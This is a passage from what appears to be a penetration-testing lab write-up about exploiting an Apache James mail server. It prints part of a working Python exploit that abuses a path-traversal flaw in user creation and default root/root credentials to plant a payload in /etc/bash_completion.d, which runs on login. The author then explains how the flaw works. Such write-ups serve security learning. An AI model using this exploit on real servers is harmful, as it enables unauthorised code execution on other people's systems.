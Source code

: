 ```
    print "[+]Creating user..."
    s.send("adduser ../../../../../../../../etc/bash_completion.d exploit\n")
    s.recv(1024)
    s.send("quit\n")
    s.close()

    print "[+]Connecting to James SMTP server..."
    s = socket.socket(socket.AF_INET,socket.SOCK_STREAM)
    s.connect((ip,25))
    s.send("ehlo team@team.pl\r\n")
    recv(s)
    print "[+]Sending payload..."
    s.send("mail from: <'@team.pl>\r\n")
    recv(s)
    # also try s.send("rcpt to: <../../../../../../../../etc/bash_completion.d@hostname>\r\n") if the recipient cannot be found
    s.send("rcpt to: <../../../../../../../../etc/bash_completion.d>\r\n")
    recv(s)
    s.send("data\r\n")
    recv(s)
    s.send("From: team@team.pl\r\n")
    s.send("\r\n")
    s.send("'\n")
    s.send(payload + "\n")
    s.send("\r\n.\r\n")
    recv(s)
    s.send("quit\r\n")
    recv(s)
    s.close()
    print "[+]Done! Payload will be executed once somebody logs in."
except:
    print "Connection failed."`
```

After reviewing the script, I made a few notes:

1. This is an authenticated exploit, so we need credentials. The exploit uses the default credentials root/root that are probably shipped with the software. We’ll have to connect to the server to find out if these credentials are valid before we run this exploit.

1. When running the exploit we have to pass the IP address as an argument. The script by default connects to port 4555 which is good since our server is running on that port.

1. The script first creates a user with username “../../../../../../../../etc/bash_completion.d” and password “exploit”. It then connects to the SMTP server and sends that user a payload. Right off the bat, this doesn’t make much sense, so we’ll have to research the vulnerability.

After a bit of research we find that the vulnerability is in the _adduser_ functionality. When a new user is added, the server creates a new subdirectory to store incoming and outgoing emails for that user. However, the username field is not properly validated. Therefore, when we’re creating a user with the username “../../../../../../../../etc/bash_completion.d”, any mail that gets sent to that user will be stored in that directory path. Why is that dangerous? Long story short, anything under the directory /etc/bash_completion.d is automatically loaded by Bash for all users! To learn more about bash completion scripts, refer to this [article](https://iridakos.com/programming/2018/03/01/bash-programmable-completion-tutorial).
